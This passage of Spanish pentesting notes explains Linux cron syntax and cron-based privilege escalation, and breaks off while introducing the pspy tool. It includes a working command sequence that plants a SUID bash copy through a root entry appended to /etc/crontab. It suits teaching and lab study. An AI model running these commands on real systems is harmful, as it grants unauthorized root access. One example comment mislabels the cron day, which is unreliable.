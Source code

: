 ![Cron Jobs Structure](http://kamilslab.com/wp-content/uploads/2016/09/cron-e1473900135807.png)

```bash
# Example: 
# Cron: Execute backups with root user on every friday of month at 00:00
0 0 * * 4 root /root/backups/backup.sh
```

Es importante mencionar que existen temporizadores preestablecidos que permiten programar la ejecución de las tareas con palabras:

- **@reboot:** Se ejecuta sólo una vez (nada más iniciarse el equipo).
- **@yearly:** Se ejecuta sólo una vez al año: **0 0 1 1 ***.
- **@monthly:** Se ejecuta una vez al mes y el primer día a las 12 de la noche: **0 0 1 * ***.
- **@weekly:** Todas las semanas, el primer minuto de la primer hora de la semana: **0 0 * * 0**.
- **@daily: T**odos los días a las 12 de la noche: **0 0 * * ***.
- **@midnight:** Tiene el mismo efecto que el anterior.
- **@hourly: T**odas las horas durante su primer minuto: **0 * * * ***.

Si aún no sabes bien cómo leer cron jobs, te recomiendo utilizar este recurso que te permitirá traducirlas y conocer sus respectivos significados: [Crontab.guru](https://crontab.guru/)

De esta forma, si de seguridad hablamos, podemos abusar de cron jobs si:

- Tenemos permisos de escritura, o alguna forma de modificar, archivos de Cron (ej: `/etc/crontab`).
- Tenemos privilegios de escritura en los archivos o binarios que se ejecutan a partir de los cron jobs.
- Tenemos la capacidad de intervenir en los procesos que se ejecutan con Cron (ej: podemos modificar un archivo que se ejecuta a partir de la ejecución de un binario con cron).
- Tenemos la capacidad de modificar algún archivo `crontab` de otro usuario.

Por ejemplo, si tenemos permisos de escritura en el archivo `/etc/crontab` lo suyo sería la siguiente secuencia de comandos para escalar privilegios:

```bash
# Create a malicious file
$ echo 'cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash' > /tmp/privesc.sh 
$ chmod +x /tmp/privesc.sh

# Add evil cron job to /etc/crontab
$ echo '* * * * * root /tmp/privesc.sh' >> /etc/crontab

# Wait a minute and you will get root by executing the next command
/tmp/bash -p 
```

## Process Monitoring

Una buena técnica de enumeración es la monitorización de procesos con la herramienta [Pspy](https://github.com/DominicBreuker/pspy)

Podemos descargar uno de los [releases](https://github.com/DominicBreuker/pspy/releases), de acuerdo a la arquitectura de nuestro sistema operativo, y ejecutarlo de la siguiente manera para comenzar a ver los procesos que se ejecutan en tiempo real:
